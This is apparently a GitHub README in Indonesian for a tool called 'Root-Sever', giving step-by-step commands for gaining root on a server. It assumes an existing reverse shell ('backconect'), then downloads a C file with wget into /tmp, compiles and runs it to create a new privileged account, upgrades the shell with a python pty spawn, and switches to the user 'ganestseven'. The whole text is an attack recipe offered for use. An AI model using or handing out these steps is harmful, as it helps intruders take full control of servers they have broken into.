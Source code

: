 # Root-Sever
sebelum pakai pastikan backconect terlebih dahulu
lalu compile file nya 
# command 1 
```cd /tmp```
# command 2
```mkdir tes```
# command 3
```wget https://raw.githubusercontent.com/ganest-seven/Root-Sever/main/root1.c```
# command 4
```gcc -pthread root1.c -o g7 -lcrypt```
# command 5
```chmod +x g7```
# command 6
```./g7``` <br>
buat password baru lalu tunggu
# command 7 
```python -c 'import pty; pty.spawn("/bin/sh")'```
# command 8
```su ganestseven```
masukan password yang tadi di bikin
``````
``````
``````
